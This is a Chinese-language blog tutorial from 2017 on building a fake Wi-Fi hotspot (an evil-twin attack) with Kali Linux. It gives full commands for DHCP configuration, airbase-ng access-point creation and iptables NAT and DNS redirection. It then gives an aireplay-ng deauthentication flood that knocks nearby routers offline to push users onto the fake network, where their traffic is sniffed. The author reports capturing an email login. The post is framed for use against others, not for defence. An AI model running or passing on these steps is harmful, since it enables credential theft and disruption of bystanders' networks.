 ```yaml
---
title: "创建假的wifi热点"
categories: [ "安全" ]
tags: [ "wifi安全" ]
draft: false
slug: "创建假的wifi热点-创建假的wifi热点"
date: "2017-04-08 07:42:50"
---
```




本帖介绍怎么创建假的wifi热点，然后抓取连接到这个wifi用户的敏感数据。我们还会给周围的无线路由器发送未认证的包，使这些路由器瘫痪，强迫用户连接（或自动连接）我们创建的假wifi热点。

这种攻击也叫”水坑攻击”－把其他用户都聚集到一个”坑”中。

## 系统要求：

  * Kali Linux
  * 本地有线网络连接（网络接口 eth0）
  * 无线网卡支持包注入模式和监控模式 （网络接口 wlan0）
  * 各种抓包工具－Wireshark、 ettercap、tcpdump…

## 获得默认网关

    # route -n

![][1] 

这个值在设置iptables时会用到。

## 安装DHCP服务

用处: 为连接假wifi的用户分配IP。

    # apt-get install isc-dhcp-server

配置DHCP：

    # vim /etc/dhcp/dhcpd.conf

文件中内容：

    authoritative;
    default-lease-time 600;
    max-lease-time 7200;
    subnet 192.168.10.0 netmask 255.255.255.0 {
       option routers 192.168.10.1;
       option subnet-mask 255.255.255.0;
       option domain-name "freewifi";
       option domain-name-servers 8.8.8.8,8.8.4.4,192.168.0.1;
       range 192.168.10.100 192.168.10.140;
    }
    

先不启动DHCP服务。

## 进入无线网卡的监控模式

    # airmon-ng start wlan0
    # airmon-ng check kill

把wlan0替换为你的无线网卡接口。

要退出监控模式，执行：

    # airmon-ng stop wlan0mon

## 创建wifi热点

    # airbase-ng -c 11 -e fake_wifi wlan0mon

![][2] 

不要终止这个命令。

![][3] 

现在你已经创建了一个wifi热点，但是这个wifi目前还不能连接。

设置网络和防火墙规则

    # ifconfig at0 up
    # ifconfig at0 192.168.10.1 netmask 255.255.255.0
    # ifconfig at0 mtu 1400
    # route add -net 192.168.10.0 netmask 255.255.255.0 gw 192.168.10.1
    # iptables --flush
    # iptables --table nat --flush
    # iptables --delete-chain
    # iptables --table nat --delete-chain
    # echo 1 > /proc/sys/net/ipv4/ip_forward
    # iptables -t nat -A PREROUTING -p udp -j DNAT --to 192.168.0.1
    # iptables -P FORWARD ACCEPT
    # iptables --append FORWARD --in-interface at0 -j ACCEPT
    # iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE

## 启动DHCP服务

    # dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhcpd.pid at0
    # systemctl start isc-dhcp-server

遇到的问题：

    PID file: /var/run/dhcpd.pid
    Can"t open lease database /var/lib/dhcp/dhcpd.leases: No such file or directory --

创建这个文件解决这个问题：

    # mkdir /var/lib/dhcp/
    # touch /var/lib/dhcp/dhcpd.leases

到此，wifi热点创建完成

![][4] 

## 瘫痪其他路由

列出周围的wifi：

    # airodump-ng wlan0mon

然后选择你的目标，记住BSSID和频道。

设置频道：

    # iwconfig wlan0mon channel 

开始deauthentication攻击：

    # aireplay-ng -0 5000 -a  wlan0mon --ignore-negative-one

* * *

OK，现在你可以愉快的抓包了。

* * *

例如使用Wireshark抓包：

![][5] 

上图抓到了我手机邮件客户端登录的邮箱账户。

* * *

> 更多:<https://github.com/tiancode/learn-hacking>

 [1]: /uploads/oss/2017-04-25-14916374662307.png ""
 [2]: /uploads/oss/2017-04-25-14916375792584.png ""
 [3]: /uploads/oss/2017-04-25-14916375953194.png ""
 [4]: /uploads/oss/2017-04-25-14916376773125.jpg ""
 [5]: /uploads/oss/2017-04-25-14916379668555.png ""